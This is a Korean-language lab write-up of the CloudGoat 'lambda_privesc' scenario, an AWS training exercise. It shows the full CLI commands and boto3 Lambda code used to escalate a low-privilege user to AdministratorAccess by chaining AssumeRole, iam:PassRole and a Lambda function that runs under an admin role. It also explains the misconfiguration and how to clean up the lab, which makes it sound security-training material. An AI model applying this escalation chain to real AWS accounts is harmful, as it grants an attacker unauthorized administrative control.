

# 7th Scenario: Lambda_PrivEsc

[← CloudGoat 시나리오 목록](../README.md)

난이도: Easy



이번에도 목표는 Full Admin 권한이다. 처음 시작은 Chris라는 계정에서 시작을 해서 전체 어드민 권한을 얻는 것으로 보인다. 

개요를 확인하였을 때, Chris 계정에서 Lambda에 완전히 접근할 수 있는 것과 role 권한을 통과할 수 있다는 것을 확인하고 권한상승을 꾀하는 것으로 확인된다. 


# 진행


언제나처럼 상큼하게 chris 계정을 start.txt에서 찾아 aws configure로 등록하고 sts get-caller-identity로 확인 및 풀계정네임을 확인하면서 시작한다. 


일단 개별 유저 정책은 없고, 유저 관리 정책에서 하나가 존재하는 것을 확인할 수 있다. 


get-policy로 버전정보를 확인했고 


자세한 권한 내용을 확인하여 보니, list와 get으로 시작하는 명령어들과 AssumeRole에 대한 명령이 허가되어 있는 것을 확인할 수 있었다. 

내가 활용해야 할 assume-role 명령어를 확인해보니 다음과 같다. 

`assume-role`은 AWS CLI에서 **현재 사용자의 자격 증명으로 다른 IAM Role을 임시로 맡는 명령어**입니다.

```
aws sts assume-role \
  --role-arn arn:aws:iam::<ACCOUNT_ID>:role/<ROLE_NAME> \
  --role-session-name test-session
```

성공하면 STS가 다음 임시 자격 증명을 반환합니다.

```
{
  "Credentials": {
    "AccessKeyId": "...",
    "SecretAccessKey": "...",
    "SessionToken": "...",
    "Expiration": "..."
  }
}
```

이 값을 환경변수로 설정하면 이후 AWS CLI 명령은 해당 Role 권한으로 실행됩니다.

```
export AWS_ACCESS_KEY_ID="..."
export AWS_SECRET_ACCESS_KEY="..."
export AWS_SESSION_TOKEN="..."
```

구조는 다음과 같습니다.

```
현재 IAM 사용자/Role
        │
        │ sts:AssumeRole 요청
        ▼
대상 IAM Role
        │
        ▼
Role 권한을 가진 임시 자격 증명
```

성공하려면 보통 양쪽 조건이 모두 충족돼야 합니다.

1. 현재 사용자 정책에서 대상 Role에 대한 `sts:AssumeRole`이 허용돼야 합니다.
2. 대상 Role의 신뢰 정책(Trust Policy)이 현재 사용자를 신뢰해야 합니다.

예를 들어 현재 사용자 측 권한은 다음과 같습니다.

```
{
  "Effect": "Allow",
  "Action": "sts:AssumeRole",
  "Resource": "arn:aws:iam::123456789012:role/TargetRole"
}
```

대상 Role의 신뢰 정책은 다음처럼 구성될 수 있습니다.

```
{
  "Effect": "Allow",
  "Principal": {
    "AWS": "arn:aws:iam::123456789012:user/alice"
  },
  "Action": "sts:AssumeRole"
}
```

중요한 점은 `assume-role`이 Role 자체를 수정하거나 영구적으로 권한을 부여하는 명령은 아니라는 것입니다. **정해진 만료 시간이 있는 임시 권한으로 전환**하는 명령입니다.

일단 role-arn 부터 확인하는 것이 먼저로 보인다. 


debug role과 lambda 매니저 역할 2개가 있는 것을 볼 수 있다. 

debug 역할의 상세정보는 다음과 같다. 


람다 매니저의 상세정보는 다음과 같다. 


각 Role에 붙은 정책의 상세정보를 또 확인하면은 다음과 같다. (추가로, Role의 정책 확인은 처음해보는데, 처음 개요 확인 할때 list-attached-role-policies —role-name을 쓰는 것을 제외하고는 이후 관리형 정책도 유저를 대상으로 할 때와 동일했다. 

- 먼저 Debug Role의 정보를 확인한다.


- 다음은 LambdaManager다.


두 Role의 관계는 다음과 같다.

```
Chris
  │ 직접 AssumeRole 가능
  ▼
lambdaManager Role
  ├─ lambda:*
  └─ iam:PassRole
          │
          │ debug Role을 Lambda에 지정
          ▼
      Lambda 함수
          │ Lambda 서비스가 실행 시 Role을 맡음
          ▼
      debug Role
          └─ AdministratorAccess
```

여기서 최종 목표는 debug Role 자체의 임시 키를 얻는 게 아니다. debug Role을 실행 역할로 사용하는 Lambda 함수를 만든 뒤, 그 Lambda가 관리자 권한으로 Chris에게 `AdministratorAccess`를 붙이게 만드는 것이다.

---

# 2. 두 Role이 서로 다른 이유

## lambdaManager Role

실제 Trust Policy는 다음 관계다.

```
{
  "Principal": {
    "AWS": "arn:aws:iam::905896283233:user/chris-cgidi6x2pxs65g"
  },
  "Action": "sts:AssumeRole",
  "Effect": "Allow"
}
```

즉 다음 요청은 허용된다.

```
Chris → AssumeRole → lambdaManager
```

lambdaManager에 연결된 정책은 다음 권한을 가진다.

```
{
  "Action": [
    "lambda:*",
    "iam:PassRole"
  ],
  "Resource": "*"
}
```

- `lambda:*`: Lambda 생성, 수정, 호출, 삭제 등 모든 Lambda 작업
- `iam:PassRole`: IAM Role을 AWS 서비스에 실행 역할로 전달할 수 있음


실제로 되는 것을 볼 수 있다. 

## debug Role

debug Role에는 AWS 관리형 정책 `AdministratorAccess`가 연결되어 있다.

하지만 Trust Policy는 다음과 같다.

```
{
  "Principal": {
    "Service": "lambda.amazonaws.com"
  },
  "Action": "sts:AssumeRole",
  "Effect": "Allow"
}
```

따라서 Chris는 debug Role을 직접 맡을 수 없다.

```
Chris → debug Role       ✗
Lambda 서비스 → debug Role ✓
```

원하면 직접 실패를 확인해볼 수 있다.

```
CGID="cgidi6x2pxs65g"
ACCOUNT_ID="905896283233"

DEBUG_ROLE_ARN="arn:aws:iam::${ACCOUNT_ID}:role/cg-debug-role-${CGID}"
```

```
aws sts assume-role \
  --role-arn "$DEBUG_ROLE_ARN" \
  --role-session-name direct-debug-test \
  --profile chris
```

Chris 정책에는 `sts:AssumeRole`이 있지만 Role의 Trust Policy가 Chris를 신뢰하지 않으므로 `AccessDenied`가 정상이다.

## AssumeRole은 양쪽이 맞아야 한다

```
호출자 Identity Policy
“나는 이 Role을 맡아도 된다”
          AND
Role Trust Policy
“나는 이 호출자를 신뢰한다”
```

둘 중 하나라도 빠지면 AssumeRole은 실패한다.


실제로 debug role에 대해서는 되지 않는 것을 볼 수 있다.

---

# 3. `iam:PassRole`은 무엇인가?

`iam:PassRole`은 내가 그 Role로 변신하는 권한이 아니다.

```
sts:AssumeRole
→ 내가 Role의 임시 자격 증명을 받음

iam:PassRole
→ AWS 서비스를 만들면서
   “이 서비스는 이 Role로 실행해 주세요”라고 지정
```

Lambda 함수 생성 명령에는 다음 인자가 들어간다.

```
--role "$DEBUG_ROLE_ARN"
```

이 인자를 사용하려면 함수를 생성하는 주체에게 `iam:PassRole` 권한이 필요하다.

AWS도 Lambda 함수를 만들 때 실행 역할을 할당하는 작업에 `iam:PassRole`이 사용된다고 설명한다. [AWS IAM PassRole 설명](https://docs.aws.amazon.com/IAM/latest/UserGuide/id_roles_use_passrole.html)

이번 설정이 위험한 이유는 다음과 같다.

```
iam:PassRole
Resource: "*"
```

lambdaManager가 낮은 권한 Role뿐 아니라 관리자 debug Role까지 Lambda에 전달할 수 있다. 실무에서는 `iam:PassRole`의 Resource를 특정 실행 Role ARN으로 엄격히 제한해야 한다.

# 5. lambdaManager Role 사용하기

지난 문제에서는 `assume-role` 결과의 `ASIA...` 임시 자격 증명 3개를 복사해서 프로필에 등록했지.


이번 lambda에서 assume-role을 진행하였을 때 뜨는 것이다. 저번에도 저걸로 role을 자격증명하였다. 

이번에는 AWS CLI의 Role Profile 기능을 이용하면 훨씬 간단하다. AWS CLI가 필요할 때 자동으로 Chris 자격 증명을 사용해 lambdaManager를 맡고, 임시 자격 증명도 자동으로 관리한다.

```
aws configure set role_arn "$LAMBDA_MANAGER_ARN" \
  --profile lambda_manager_7

aws configure set source_profile chris \
  --profile lambda_manager_7

aws configure set role_session_name cloudgoat-lambda-manager \
  --profile lambda_manager_7

aws configure set region "$REGION" \
  --profile lambda_manager_7
```

구조는 다음과 같다.

```
lambda_manager_7 프로필
├─ source_profile = chris
│    └─ 처음 인증할 장기 자격 증명
└─ role_arn = lambdaManager Role
     └─ 최종적으로 사용할 Role
```

신원을 확인한다.

```
aws sts get-caller-identity \
  --profile lambda_manager_7
```

정상적인 ARN 형태:

```
arn:aws:sts::905896283233:assumed-role/
cg-lambdaManager-role-cgidi6x2pxs65g/
cloudgoat-lambda-manager
```

여기서 `iam::...:role`이 아니라 `sts::...:assumed-role`로 표시되는 것은 현재 Role 자체가 아니라 STS가 만든 임시 Role 세션을 사용하고 있기 때문이다.


$을 안써서 ARN이 적용이 안된 사소한 실수가 있었지만, 다시 조정하니 성공하였다. 


또한 chris와 role이 같은 cg id를가지고 있는 것을 확인할 수 있다. 

---

# 6. Lambda 함수가 수행할 작업 결정

debug Role에는 `AdministratorAccess`가 있다. 따라서 이 Role로 실행되는 Lambda는 IAM 정책도 변경할 수 있다.

Lambda가 실행할 작업은 다음과 같다.

```
iam:AttachUserPolicy

대상 사용자:
chris-cgidi6x2pxs65g

연결할 정책:
arn:aws:iam::aws:policy/AdministratorAccess
```

작업용 디렉터리를 만든다.

```
mkdir -p ~/cloudgoat-lambda7
cd ~/cloudgoat-lambda7
```

VS Code에서 Python 파일을 연다.

```
code lambda_function.py
```

다음 코드를 입력하고 저장한다.

```
import boto3

CHRIS_USER = "chris-cgidi6x2pxs65g"
ADMIN_POLICY = "arn:aws:iam::aws:policy/AdministratorAccess"

def lambda_handler(event, context):
    iam = boto3.client("iam")

    iam.attach_user_policy(
        UserName=CHRIS_USER,
        PolicyArn=ADMIN_POLICY,
    )

    return {
        "result": "AdministratorAccess attached",
        "user": CHRIS_USER,
    }
```


파일을 추가해주었다. 이걸함으로써 지금 내가 실제 lambda를 사용하고 있고, 코드로 배포한다는 것을 무슨뜻인지 알게 된 것 같다. 

## 코드 해석

```
import boto3
```

Lambda에 기본 포함된 AWS Python SDK를 사용한다.

```
iam = boto3.client("iam")
```

IAM API를 호출할 클라이언트를 만든다.

별도의 Access Key를 코드에 넣지 않았는데도 호출할 수 있는 이유는 Lambda가 실행될 때 debug Role의 임시 자격 증명이 자동으로 제공되기 때문이다.

```
iam.attach_user_policy(...)
```

Chris에게 AWS 관리형 `AdministratorAccess` 정책을 연결한다.

AWS Lambda의 실행 코드는 지정된 execution role의 권한으로 AWS API를 호출한다. [AWS Lambda 실행 역할 설명](https://docs.aws.amazon.com/lambda/latest/dg/lambda-intro-execution-role.html)

---

# 7. Lambda 배포용 ZIP 생성

Lambda의 handler를 다음처럼 지정할 예정이다.

```
lambda_function.lambda_handler
```

이를 분해하면:

```
lambda_function  → lambda_function.py 파일 이름
lambda_handler   → 파일 안의 함수 이름
```

ZIP 파일을 만든다.

```
zip lambda_payload.zip lambda_function.py
```

구조를 확인한다.

```
unzip -l lambda_payload.zip
```

다음처럼 ZIP 최상위에 파일이 있어야 한다.

```
lambda_function.py
```

다음처럼 불필요한 상위 디렉터리가 들어가면 handler를 찾지 못할 수 있다.

```
cloudgoat-lambda7/lambda_function.py
```

문제 없이 잘 된것을 확인할 수 있다. 


---

# 8. Lambda 함수 생성

현재 AWS Lambda는 Python 3.14를 지원하므로 오래된 CloudGoat cheatsheet의 `python3.9` 대신 현재 지원 런타임을 사용하자. [AWS Lambda Python 런타임 목록](https://docs.aws.amazon.com/lambda/latest/dg/lambda-python.html)

```
aws lambda create-function \
  --function-name "$FUNCTION_NAME" \
  --runtime python3.14 \
  --role "$DEBUG_ROLE_ARN" \
  --handler lambda_function.lambda_handler \
  --zip-file fileb://lambda_payload.zip \
  --timeout 15 \
  --profile lambda_manager_7 \
  --region "$REGION"
```

각 인자의 의미:

```
--function-name
└─ AWS에 생성될 Lambda 함수 이름

--runtime python3.14
└─ Python 코드를 실행할 관리형 실행 환경

--role "$DEBUG_ROLE_ARN"
└─ Lambda가 실행될 때 맡을 execution role

--handler lambda_function.lambda_handler
└─ 최초로 호출할 Python 함수

--zip-file fileb://lambda_payload.zip
└─ 업로드할 코드 압축파일
   fileb://는 로컬 파일을 바이너리로 읽는다는 의미

--timeout 15
└─ 최대 실행시간 15초

--profile lambda_manager_7
└─ 함수를 생성하는 주체는 lambdaManager Role

--region us-east-1
└─ 함수를 생성할 리전
```


실제로는 조금 다르게 나한테 맞게 조정하여 실행하였다. 

여기에는 두 개의 서로 다른 신원이 등장한다.

```
함수를 생성하는 신원:
lambdaManager Role

함수가 실행될 때 사용하는 신원:
debug Role
```

`iam:PassRole`은 바로 이 `--role "$DEBUG_ROLE_ARN"` 부분을 허용한다.

- 실제로 위 명령어를 입력하니 아래 항목들이 출력되었다.

```
{
    "FunctionName": "PrivEsc",
    "FunctionArn": "arn:aws:lambda:us-east-1:905896283233:function:PrivEsc",
    "Runtime": "python3.14",
    "Role": "arn:aws:iam::905896283233:role/cg-debug-role-cgidi6x2pxs65g",
    "Handler": "lambda_function.lambda_handler",
    "CodeSize": 422,
    "Description": "",
    "Timeout": 15,
    "MemorySize": 128,
    "LastModified": "2026-08-11T12:36:59.341+0000",
    "CodeSha256": "caEd+jMIlpcByw0DZAZZZ4lwSJXq7Ujo41s53efECZo=",
    "Version": "$LATEST",
    "TracingConfig": {
        "Mode": "PassThrough"
    },
    "RevisionId": "69407ae9-9147-4a34-9c3c-6aa80d998569",
    "State": "Pending",
    "StateReason": "The function is being created.",
    "StateReasonCode": "Creating",
    "PackageType": "Zip",
    "Architectures": [
        "x86_64"
    ],
    "EphemeralStorage": {
        "Size": 512
    },
    "SnapStart": {
        "ApplyOn": "None",
        "OptimizationStatus": "Off"
    },
    "RuntimeVersionConfig": {
        "RuntimeVersionArn": "arn:aws:lambda:us-east-1::runtime:916b2077df67ed391c654f784d06a7867c8e499551b1d1b62d6df5d240990a52"
    },
    "LoggingConfig": {
        "LogFormat": "Text",
        "LogGroup": "/aws/lambda/PrivEsc"
    }
}
```

성공 결과에서 확인할 항목:

```
FunctionName
Runtime
Role
Handler
State
```

간단히 다시 조회할 수도 있다.

```
aws lambda get-function-configuration \
  --function-name "$FUNCTION_NAME" \
  --profile lambda_manager_7 \
  --region "$REGION" \
  --query '{Name:FunctionName,State:State,Runtime:Runtime,Role:Role,Handler:Handler}'
```

`State`가 `Pending`이면 잠시 기다렸다가 다시 조회하고, `Active`가 된 후 호출한다.

---

# 9. Lambda 함수 실행

```
aws lambda invoke \
  --function-name "$FUNCTION_NAME" \
  --payload '{}' \
  --cli-binary-format raw-in-base64-out \
  --profile lambda_manager_7 \
  --region "$REGION" \
  lambda-response.json
```

여기서 두 종류의 결과가 생긴다. (아래 사진은 실제 출력이다.) 


### 터미널에 출력되는 결과

Lambda API 호출 자체의 결과다.

```
{
  "StatusCode": 200,
  "ExecutedVersion": "$LATEST"
}
```

### `lambda-response.json`

Python 함수가 반환한 실제 값이다.

```
jq . lambda-response.json
```

기대 결과:

```
{
  "result": "AdministratorAccess attached",
  "user": "chris-cgidi6x2pxs65g"
}
```

`StatusCode`가 200이어도 함수 내부에서 오류가 발생할 수 있다. 터미널 결과에 다음 필드가 있는지 확인해야 한다.

```
"FunctionError": "Unhandled"
```

그 경우:

```
cat lambda-response.json | jq .
```

오류 메시지에서 다음을 구분한다.

```
No module named ...
→ ZIP 구조 또는 handler 문제

AccessDenied
→ debug Role 권한 또는 대상 이름 문제

NoSuchEntity
→ CHRIS_USER 오타

ResourceConflictException
→ 같은 이름의 Lambda 함수가 이미 존재
```

---

# 10. Chris에게 관리자 정책이 붙었는지 확인

원래 `chris` 프로필로 확인한다.

```
aws iam list-attached-user-policies \
  --user-name "$CHRIS_USER" \
  --profile chris \
  --output table
```


보면은 admin에 대한 정책이 적용된 것을 확인할 수 있다. 가장 처음에 chris의 정책을 확인하였을 때는 이가 없었다가, lambda를 통해 admin 정책을 적용시킨 것을 볼 수 있다. 

기존 CloudGoat 정책과 함께 다음 항목이 보여야 한다.

```
AdministratorAccess
arn:aws:iam::aws:policy/AdministratorAccess
```

중요한 점은 Chris의 Access Key가 바뀐 게 아니라는 것이다.

```
전:
Chris Access Key
→ cg-chris-policy 권한

후:
같은 Chris Access Key
→ cg-chris-policy + AdministratorAccess
```

정책 평가 결과만 달라졌기 때문에 `aws configure`를 다시 할 필요가 없다.

관리자 권한을 비-IAM 서비스로 확인할 수 있다.

```
aws ec2 describe-regions \
  --profile chris \
  --region us-east-1 \
  --query 'Regions[].RegionName' \
  --output table
```

이 시나리오의 목표는 “전체 관리자 권한 획득”이므로 `AdministratorAccess` 연결까지 확인하면 완료다. 별도의 flag나 Secrets Manager 조회는 없다.

---

# 11. 이번 취약점의 본질

겉으로 보면 lambdaManager Role은 Lambda만 관리하는 개발자 Role처럼 보인다.

```
"lambda:*"
```

하지만 다음 권한이 함께 있다.

```
"iam:PassRole",
"Resource": "*"
```

이 조합은 매우 위험하다.

```
Lambda 생성 권한
     +
높은 권한 Role을 PassRole할 권한
     +
그 Role이 Lambda 서비스를 신뢰
     ↓
높은 권한으로 임의 코드 실행
```

Chris는 다음 권한이 없어도 관리자 정책을 붙일 수 있었다.

```
Chris의 직접 iam:AttachUserPolicy 권한: 없음
lambdaManager의 직접 iam:AttachUserPolicy 권한: 없음
```

대신:

```
lambdaManager
→ 관리자 Role을 Lambda에 전달
→ Lambda가 관리자 Role로 실행
→ Lambda 내부에서 iam:AttachUserPolicy 호출
```

즉 권한 검사를 우회한 것이 아니라, 허용된 권한들을 위험하게 조합한 것이다.

---

# 12. 실습 리소스 수동 정리

이 시나리오에서 만든 Lambda 함수는 CloudGoat의 Terraform이 만든 리소스가 아니므로 `cloudgoat destroy` 전에 직접 삭제해야 한다.

먼저 함수 삭제:

```
aws lambda delete-function \
  --function-name "$FUNCTION_NAME" \
  --profile lambda_manager_7 \
  --region "$REGION"
```

그다음 Chris에게 추가한 관리자 정책을 제거한다.

```
aws iam detach-user-policy \
  --user-name "$CHRIS_USER" \
  --policy-arn arn:aws:iam::aws:policy/AdministratorAccess \
  --profile chris
```

정책 제거 여부 확인:

```
aws iam list-attached-user-policies \
  --user-name "$CHRIS_USER" \
  --profile chris \
  --output table
```

마지막으로 CloudGoat 리소스를 제거한다.

```
cd ~/.local/lib/python3.10/site-packages/cloudgoat

cloudgoat destroy lambda_privesc_cgidi6x2pxs65g \
  --profile cloudgoat-lab
```

핵심 경로만 압축하면 다음과 같다.

```
Chris
→ lambdaManager AssumeRole
→ 관리자 debug Role을 PassRole
→ debug Role로 실행되는 Lambda 생성
→ Lambda가 Chris에게 AdministratorAccess 연결
→ 같은 Chris 자격 증명으로 관리자 권한 획득
```